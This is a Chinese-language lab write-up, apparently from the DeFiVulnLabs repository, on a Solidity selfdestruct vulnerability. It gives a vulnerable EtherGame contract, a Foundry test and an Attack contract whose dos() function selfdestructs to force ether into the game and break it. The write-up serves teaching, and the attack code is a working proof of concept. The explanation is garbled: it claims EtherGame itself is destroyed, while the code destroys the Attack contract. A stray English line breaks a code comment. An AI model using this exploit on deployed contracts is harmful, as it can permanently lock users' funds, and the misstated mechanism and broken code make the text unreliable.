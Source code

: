 # Selfdestruct
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  
**名称：** 自毁漏洞  
**描述：**    
这个EtherGame合约的自毁漏洞是智能合约代码中的一个缺陷，它允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的doc函数在收到大量以太币后对EtherGame合约执行自毁操作。由于执行自毁操作后，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向约合存入1个以太币。
3. 部署Attack合约并且在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。

**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约中删除所有的字节码并且发送所有的以太币到指定的合约地址。  

**修复建议：**  
不要依赖this.balance来获取存入的以太币，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice存款的开始
    console.log("Alice deposit 1 Ether...");
    // 将消息发送者设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个ETH
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve存款的开始
    console.log("Eve deposit 1 Ether...");
    // 将消息发送者设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGameContract存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

//  用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数用于设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```  
**红框：** 攻击成功，游戏结束。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1b7b4334-de84-448a-a344-646eb909fb4f%2FUntitled.png?table=block&id=ed7eeade-45f5-4ed8-a8e7-b6e940b0af07&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)